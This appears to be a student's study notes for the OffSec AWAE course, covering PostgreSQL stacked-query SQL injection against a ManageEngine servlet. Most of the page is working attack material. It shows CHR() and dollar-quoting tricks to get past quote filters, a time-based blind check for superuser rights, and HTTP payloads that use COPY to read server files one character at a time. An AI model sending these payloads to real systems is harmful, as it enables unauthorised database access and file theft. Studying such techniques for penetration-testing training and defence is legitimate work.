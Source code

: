 * Only works on basic queries such as *SELECT*, *INSERT*, *DELETE* etc. 
```PSQL
amdb=# CREATE TABLE AWAE (offsec text); INSERT INTO AWAE(offsec) VALUES (CHR(65)||CHR(87)||CHR(65)||CHR(69));
CREATE TABLE
INSERT 0 1
amdb=# SELECT * from AWAE;
 offsec
--------
 AWAE
```
 ^Works
```PSQL
CREATE TABLE AWAE (offsec text);
INSERT INTO AWAE(offsec) VALUES (CHR(65)||CHR(87)||CHR(65)||CHR(69));
COPY AWAE (offsec) TO CHR(99)||CHR(58)||CHR(92)||CHR(92)||CHR(65)||CHR(87)||CHR(65)||CHR(69));
ERROR:  syntax error at or near "CHR"
LINE 3: COPY AWAE (offsec) TO CHR(99)||CHR(58)||CHR(92)||CHR(92)||CH...
                              ^

********** Error **********
```
Doesnt work :(
### Lexical 
* PSQL supports Lexical Structure (https://www.postgresql.org/docs/9.2/sql-syntax-lexical.html)
* 2 dollars can be used as a quote.
```PSQL
SELECT 'AWAE';
SELECT $$AWAE$$;
SELECT $TAG$AWAE$TAG$;
```
```PSQL
CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;
```
### POC
```HTTP
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;<some query>;--+ HTTP/1.0
Host: manageengine:8443
```
```PSQL
SELECT current_setting('is_superuser');
```
```HTTP
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
Host: manageengine:8443
```
* Will sleep for 10 seconds *if* the user is a  superuser.
* PSQL command injection
```psql
CREATE temp table awae (content text);
COPY awae from $$c:\awae.txt$$;
SELECT content from awae;
DROP table awae;
```
```HTTP
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;create+temp+table+awae+(content+text);copy+awae+from+$$c:\awae.txt$$;select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(10)+end;--+ HTTP/1.0
Host: manageengine:8443
```
* Reading the first character of the file C:\awae.txt and comparing it with the letter "h". If the letter is "h", sleep for 10 seconds.
```HTTP
```